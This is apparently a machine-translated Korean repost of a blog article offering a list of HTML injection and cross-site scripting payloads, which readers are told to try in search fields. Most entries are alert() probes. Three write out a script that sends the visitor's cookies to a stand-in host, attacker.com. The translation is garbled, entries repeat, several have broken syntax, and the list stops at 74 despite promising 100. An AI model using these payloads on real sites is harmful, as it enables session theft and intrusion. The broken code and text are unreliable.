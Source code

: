 ```yaml
---
title: "HTML 삽입 (페이로드 목록)"
description: ""
coverImage: "/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png"
date: 2024-05-02 00:01
ogImage: 
  url: /assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png
tag: Tech
originalTitle: "HTML INJECTION (Payload List)"
link: "https://medium.com/@psychomong/html-injection-payload-list-735e69f522ca"
isUpdated: true
---
```





피신몽인 사람들, 다시 돌아

주사, 이제 페이로드 목록을 가져 오는 것을 보여드리고, 검색 패널에서 시도해 볼 수 있으며, 그대로 반영될 수 있습니다 & 저장되면 위험할 수도 있습니다,

이제 같은 것에 대해 몇 가지 기본 사항을 살펴보겠습니다. HTML 주입이 무엇인지 알아보기 위해
아스타 타커
HTML 주입 또는 주입 관련 질문에 대해, 바로 코드만 제공해 드릴게요. 이것을 시도해서 혜택을 얻어보세요..... 


![HTML INJECTION Payload List](/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png)

<div class="content-ad"></div>

페이로드 목록을 확인해 보세요...

물론이죠! 저장된 및 반사된 HTML 주입 페이로드 100개를 모두 포함한 목록입니다:

저장된 HTML 주입 페이로드:
1. `script`alert(‘저장된 HTML 주입’)`/script`
2. `img src="javascript:alert(‘저장된 HTML 주입’)"`
3. `svg/onload=alert(‘저장된 HTML 주입’)`
4. `iframe src="javascript:alert(‘저장된 HTML 주입’)"`
5. `body onload=alert(‘저장된 HTML 주입’)`
6. `img src=x onerror=alert(‘저장된 HTML 주입’)`
7. `marquee onstart=alert(‘저장된 HTML 주입’)`
8. `input type="image" src="javascript:alert(‘저장된 HTML 주입’)"`
9. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
10. `input type="hidden" onkeypress="alert(‘저장된 HTML 주입’)"`
11. `audio onloadstart="alert(‘저장된 HTML 주입’)"`
12. `form onsubmit="alert(‘저장된 HTML 주입’)"`
13. `textarea onchange="alert(‘저장된 HTML 주입’)"`
14. `base href="javascript:alert(‘저장된 HTML 주입’)"`
15. `a href="javascript:alert(‘저장된 HTML 주입’)"`여기를 클릭하세요`/a`
16. `object data="javascript:alert(‘저장된 HTML 주입’)"`
17. `img src="x" onmouseover="alert(‘저장된 HTML 주입’)"`
18. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
19. `body background="javascript:alert(‘저장된 HTML 주입’)"`
20. `embed src="javascript:alert(‘저장된 HTML 주입’)"`
21. `script`alert(‘반사된 HTML 주입’)`/script`
22. `img src="javascript:alert(‘반사된 HTML 주입’)"`
23. `svg/onload=alert(‘반사된 HTML 주입’)`
24. `iframe src="javascript:alert(‘반사된 HTML 주입’)"`
25. `body onload=alert(‘반사된 HTML 주입’)`
26. `img src=x onerror=alert(‘반사된 HTML 주입’)`
27. `marquee onstart=alert(‘반사된 HTML 주입’)`
28. `input type="image" src="javascript:alert(‘반사된 HTML 주입’)"`
29. `img src=1 href=1 onerror=alert(‘반사된 HTML 주입’) /`
30. `input type="hidden" onkeypress="alert(‘반사된 HTML 주입’)"`
31. `audio onloadstart="alert(‘반사된 HTML 주입’)"`
32. `form onsubmit="alert(‘반사된 HTML 주입’)"`
33. `textarea onchange="alert(‘반사된 HTML 주입’)"`
34. `base href="javascript:alert(‘반사된 HTML 주입’)"`
35. `a href="javascript:alert(‘반사된 HTML 주입’)"`여기를 클릭하세요`/a`
36. `object data="javascript:alert(‘반사된 HTML 주입’)"`
37. `img src="x" onmouseover="alert(‘반사된 HTML 주입’)"`
38. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
39. `body background="javascript:alert(‘반사된 HTML 주입’)"`
40. `embed src="javascript:alert(‘반사된 HTML 주입’)"`

41. `svg/onload=alert(‘저장된 HTML 주입’)`
42. `body onload=alert(‘저장된 HTML 주입’)`
43. `img src=x onerror=alert(‘저장된 HTML 주입’)`
44. `marquee onstart=alert(‘저장된 HTML 주입’)`
45. `input type="image" src="javascript:alert(‘저장된 HTML 주입’)"`
46. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
47. `input type="hidden" onkeypress="alert(‘저장된 HTML 주입’)"`
48. `audio onloadstart="alert(‘저장된 HTML 주입’)"`
49. `form onsubmit="alert(‘저장된 HTML 주입’)"`
50. `textarea onchange="alert(‘저장된 HTML 주입’)"`
51. `base href="javascript:alert(‘저장된 HTML 주입’)"`
52. `a href="javascript:alert(‘저장된 HTML 주입’)"`여기를 클릭하세요`/a`
53. `object data="javascript:alert(‘저장된 HTML 주입’)"`
54. `img src="x" onmouseover="alert(‘저장된 HTML 주입’)"`
55. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
56. `body background="javascript:alert(‘저장된 HTML 주입’)"`
57. `embed src="javascript:alert(‘저장된 HTML 주입’)"`
58. `img src="javascript:alert(‘저장된 HTML 주입’)" onerror="alert(‘저장된 HTML 주입’)"`
59. `body``svg``script`alert(‘저장된 HTML 주입’)`/script``/svg``/body`
60. `a href="data:text/html,`script`alert(‘저장된 HTML 주입’)`/script`"`여기를 클릭하세요`/a`

<div class="content-ad"></div>

반가워요! 

다음은 HTML 주입 페이로드 결과입니다:
61. `svg/onload=alert(‘주입된 HTML 삽입’)`
62. `body onload=alert(‘주입된 HTML 삽입’)`
63. `img src=x onerror=alert(‘주입된 HTML 삽입’)`
64. `marquee onstart=alert(‘Reflected HTML Injection’)`
65. `input type="image" src="javascript:alert(‘주입된 HTML 삽입’)"`
66. `img src=1 href=1 onerror=alert(‘주입된 HTML 삽입’) /`
67. `input type="hidden" onkeypress="alert(‘주입된 HTML 삽입’)"`
68. `audio onloadstart="alert(‘주입된 HTML 삽입’)"`
69. `form onsubmit="alert(‘주입된 HTML 삽입’)"`
70. `textarea onchange="alert(‘주입된 HTML 삽입’)"`
71. `base href="javascript:alert(‘주입된 HTML 삽입’)"`
72. `a href="javascript:alert(‘주입된 HTML 삽입’)"`Click me`/a`
73. `object data="javascript:alert(‘주입된 HTML 삽입’)"
74. `img src="x" onmouseover="alert(‘주입된 HTML 삽입’)"`
... (중략)

여기까지 주입을 시도해보고, 어디에 삽입해야 하는지 알려줘.... 찾아보세요..

다음주 월요일에 만나요,

<div class="content-ad"></div>

행복한 해킹! 해커들...